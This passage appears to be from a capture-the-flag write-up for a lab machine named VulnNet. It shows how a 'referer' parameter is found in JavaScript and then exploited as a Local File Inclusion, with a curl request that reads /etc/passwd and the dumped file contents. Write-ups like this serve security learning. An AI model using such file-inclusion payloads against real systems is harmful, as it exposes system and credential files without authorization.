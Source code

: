 The second script reveals that `index.php` accepts a `referer` parameter:

~~~
}, n.p = "http://vulnnet.thm/index.php?referer=", n(n.s = 0)
~~~

Let's add `broadcast.vulnnet.thm` to our hosts file:

~~~
$ echo "10.10.123.41 broadcast.vulnnet.thm" | sudo tee -a /etc/hosts
~~~

Browsing this new subdomain prompts for a basic authentication, which is a dead end at this stage. Let's check the other information.

## LFI

Injecting `/etc/password` as `referer` confirms that the page suffers from a Local File Inclusion (LFI):

~~~
┌──(kali㉿kali)-[/data/VulnNet]
└─$ curl -s http://vulnnet.thm/?referer=/etc/passwd 

[REDACTED]

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
uuidd:x:105:111::/run/uuidd:/usr/sbin/nologin
lightdm:x:106:113:Light Display Manager:/var/lib/lightdm:/bin/false
whoopsie:x:107:117::/nonexistent:/bin/false
kernoops:x:108:65534:Kernel Oops Tracking Daemon,,,:/:/usr/sbin/nologin
pulse:x:109:119:PulseAudio daemon,,,:/var/run/pulse:/usr/sbin/nologin
avahi:x:110:121:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/usr/sbin/nologin
hplip:x:111:7:HPLIP system user,,,:/var/run/hplip:/bin/false
server-management:x:1000:1000:server-management,,,:/home/server-management:/bin/bash
mysql:x:112:123:MySQL Server,,,:/nonexistent:/bin/false
sshd:x:113:65534::/run/sshd:/usr/sbin/nologin
  <script src="/js/index__7ed54732.js"></script>
  <script src="/js/index__d8338055.js"></script>

</body>
</html>
~~~
